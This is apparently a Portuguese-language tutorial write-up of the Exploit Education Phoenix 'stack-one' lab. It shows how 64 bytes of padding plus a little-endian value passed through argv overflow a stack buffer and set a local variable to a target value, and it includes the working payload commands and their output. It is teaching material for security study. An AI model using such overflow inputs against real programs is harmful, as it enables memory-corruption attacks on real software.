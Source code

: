 Index
1. [🎯 Objetivo](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/2%20-%20Stack%20One.md#-objetivo)
2. [💡 Dicas](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/2%20-%20Stack%20One.md#-dicas)
3. [💫 Explicação](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/2%20-%20Stack%20One.md#-explicação)
4. [🔥 Solução](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/2%20-%20Stack%20One.md#-solução)

# 🎯 Objetivo
Agora o objetivo não é só alterar changeme, é alterar para um valor especifico!

Lembra todo aquele papinho de controlar o valor depois do preenchimento (padding) ?

Pois é, ele vai ser super util agora!

# 💡 Dicas
Ver a representação hex de cada letra: $ man ascii

Dar um Google sobre Endianess.

# 💫 Explicação
Se lembra de que no tutorial passado a gente trocou changeme pra 41 e 42?

O que ta acontecendo por tras das cenas é que as letras estão virando a sua representação hex.

Então print("A"*5) é equivalente à print(b"\x41"*5)
> Presta atenção no b"" : esse b indica que são Bytes! :D

As vezes o python3 vai reclamar de você usar valores arbitrários pra esses bytes,
então você pode usar o python2 (o print não tem parenteses, mas o resto é igual):
> $ python -c "print 'blablabla'"

Nesse caso, changeme ta sendo comparada com 0x496c5962:
```
  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  ....
```
O buffer tem tamanho 64 de novo, então podemos usar 64 caracteres para preenche-lo, igual na anterior! uhuuuu :D

Nesse caso, o programa não ta usando o gets pra abrir um input. Ele ta usando o argv (o que vem depois do nome do programa quando vc o executa no terminal)
> ./stack-one teste batata
```
agrv[0] = stack-one (o nome do programa)
argv[1] = teste
argv[2] = batata
... e assim por diante

argc é a contagem: quantas coisas tem no argv! E aqui tá checando se é menor que 2!
```
então no nosso caso, o agrv vai funcionar assim:
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
```
o $() executa oq ta dentro dos parenteses e passa pro programa, nesse caso ficaria:
> ./stack-one AAAAAAAAAAAAAA...

E o program avisa que o valor de changeme não foi alterado!

O valor de changeme tem tamanho 4 bytes, pq ele é um integer (integers são 32 ou 64 bits, então 4 ou 8 bytes). Isso quer dizer que a gente pode colocar 4 letras :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + 'BCDE'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x45444342, we want 0x496c5962
```
Ue, que esquisito, vc reparou algo de estranho?

A gente pegiu pra colocar BCDE (42 43 44 45) e ele colocou EDCB (45 44 43 42), por que isso?

Os computadores armazenam integers usando um sistema Little Endian (LE) ou Big Endian (BE), esses sistemas decidem como os numeros são representados.
> Esses sistemas se referem a magnitude dos digitos, Centena, Dezena, Unidade,...

> Em um sistema BE, os numeros são representados em ordem descrescente CDU.
> Em um sistema LE, os numeros são representados em ordem crescente UDC.
```
Por exemplo, o numero cento e vinte três:
BE: 123        LE: 321
```
No dia a dia, usamos o sistema BE, mas os computadores preferem LE, então eles invertem a ordem dos 4 bytes dos inteiros!

Então pra gente conseguir que changeme seja BCDE, a gente precisa dar EDCB pro computador! :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + 'EDCB'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42434445, we want 0x496c5962
```
Isso quer dizer que pra gente definir changeme = 49 6c 59 62, e completar o desafio, a gente precisa inverter a ordem dos bytes (62 59 6c 49)! :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + b'\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
Yay vitoria! 

### 🌙 Dica: Usando valores hex diretamente 
Mas pera, que coisa esquisita de \x é essa?

Lembra que eu falei que letras são valores hex? A gente tambem pode usar os valores hex diretamente usando \x  :D
> Então b"\x41" é igual a b"A"!

Caso você queira usar as letras, voce pode tambem! O valor hex de cada letra ta disponivel em: > $ man ascii
Então b'\x62\x59\x6c\x49' viraria b'bYlI'
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
Mas e nos casos que o byte não tem um correspondente válido? Vc usa "\x" :D

Na verdade, é mais prático usar \x 99% das vezes, mas é bom ter mais de uma opção ;)


Ufa, mais um tutorial terminado! Valeu por ter lido, te vejo no próximo :D 

# 🔥 Solução
> ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
